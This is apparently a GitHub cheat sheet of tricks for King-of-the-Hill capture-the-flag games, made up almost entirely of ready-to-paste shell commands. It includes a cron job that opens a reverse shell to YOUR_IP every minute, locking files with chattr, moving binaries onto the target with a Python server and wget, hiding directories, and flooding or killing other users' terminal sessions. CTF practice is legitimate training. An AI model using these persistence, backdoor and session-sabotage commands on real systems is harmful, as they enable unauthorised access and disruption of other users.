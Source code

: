 # KOTH-Tricks
## Make king.txt unwritable
### Using noclobber
```
set -o noclobber /root/king.txt
```
### Using chattr
```
 chattr +ai /root/king.txt
```
If chattr binary is not present on the machine you can download it into your machine and after compiling you can upload into KOTH_machine and use it

Downloading into Local Machine
 ```
wget https://github.com/posborne/linux-programming-interface-exercises/blob/master/15-file-attributes/chattr.c
gcc chattr.c -o chattr
```
Uploading to KOTH_machine
```
python3 -m http.server 8080       //on your local machine start a python server
wget http://yourip:port/chattr   //on the KOTH_machine for download the binary
chmod +x chattr
./chattr +ai /root/king.txt
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use . for creating hidden directory where you can store your binaries
```
mkdir .hidden_folder
cd .hidden_folder
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use Cronjobs for automation
> **Run 'crontab -e' and paste these line**
### Reverse shell
```
* * * * * /bin/sh -i >& /dev/tcp/YOUR_IP/LISTENING_PORT 0>&1
```
### Write to king.txt
```
* * * * * echo "USERNAME" > /root/king.txt >/dev/null 2>&1
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Breaking opponent shell
### find opponent pts using these commands
```
ps aux | grep pts
who
w
```
### Spam urandom to opponent shell
```
cat /dev/urandom >/dev/pts/#
```
>  **NOTE: place opponent pts in place of '#'**
### Using script
```
script -f /dev/pts/#
```
### Spam your username to opponent shell
```
while true; do echo 'YOUR_USERNAME' >/dev/pts/#; done 
```
### Kill opponent shell
```
pkill -9 -t pts/#
```
### Using nyancat
Downloading nyancat to local Machine
```
git clone https://github.com/klange/nyancat
cd nyancat/src
make
```
Sending nyancat to KOTH_machine
```
python3 -m http.server 8080        //on your local machine start a python server into 'nyancat/src' folder
wget http://yourip:port/nyancat   //on the KOTH_machine
chmod +x nyancat
./nyancat > /dev/pts/#
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## while loop Tricks
```
while [[ $(cat /root/king.txt) != "YOUR_USERNAME" ]]; do echo "YOUR_USERNAME" > /root/king.txt; done
while true; do chattr -ia /root/king.txt 2>/dev/null; echo "YOUR_USERNAME" >/root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done
```
# Keep connected more coming in future......

